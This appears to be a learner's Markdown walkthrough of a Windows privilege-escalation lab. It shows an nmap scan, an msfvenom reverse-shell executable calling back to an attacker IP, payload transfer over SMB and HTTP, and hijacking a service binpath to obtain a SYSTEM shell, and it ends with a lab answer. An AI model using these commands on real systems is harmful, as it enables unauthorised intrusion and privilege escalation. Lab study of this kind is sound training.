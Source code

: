 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```

- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool to create payload
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder

**`on Windows Device`**

```ruby
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>








  </details>















- <details>
      <summary></summary>
  </details>


- <details>
      <summary></summary>
  </details>
  



  
</details>












<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>






